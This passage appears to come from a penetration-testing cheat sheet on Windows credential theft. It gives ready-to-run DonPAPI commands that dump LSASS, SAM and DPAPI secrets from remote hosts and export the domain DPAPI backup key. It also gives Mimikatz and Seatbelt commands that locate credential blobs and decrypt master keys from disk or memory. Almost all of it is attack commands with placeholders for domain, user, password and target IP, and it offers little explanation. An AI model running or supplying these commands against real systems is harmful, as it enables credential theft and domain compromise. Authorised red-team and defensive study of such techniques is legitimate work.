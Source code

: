 ### DonPAPI
- https://github.com/login-securite/DonPAPI
- DonPAPI can remotely read lsass,sam,dpapi etc. Requires local admin access.
- Place creds in file and use ```-credz``` flag.
- Also possible to set a list of hosts!

#### Read creds with credz.txt
```
python3 DonPAPI.py -credz credz.txt <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

#### Retrieve backup key with DA
```
python3 dpapi.py backupkeys --export -t <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

#### Read all creds with backup key
```
python3 DonPAPI.py -pvk domain_backupkey.pvk <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

### Credential manager
#### List vault of the current user
```
Invoke-Mimikatz -Command '"vault::list"'
```

#### Check for blobs for user
- Can be in Roaming or Local for all commands!
```
ls C:\Users\<USER>\AppData\Local\Microsoft\Credentials -Hidden
ls C:\Users\<USER>\AppData\Roaming\Microsoft\Credentials -Hidden

./Seatbelt.exe WindowsCredentialFiles
```

#### Find master encryption key ID
- The ```pbData``` field contains the encrypted data and the ```guidMasterKey``` contains the GUID of the key needed to decrypt it. 
```
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\<USER>\AppData\Local\Microsoft\Credentials\<BLOB ID>"'
ls C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID> -Hidden
```

#### Get master encryption key
```
Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID>\<ID> /rpc"
```

#### Get master encryption keys from memory
- If not recently used it won't be in memory
```
Invoke-Mimikatz -Command '"sekurlsa::dpapi"'
```
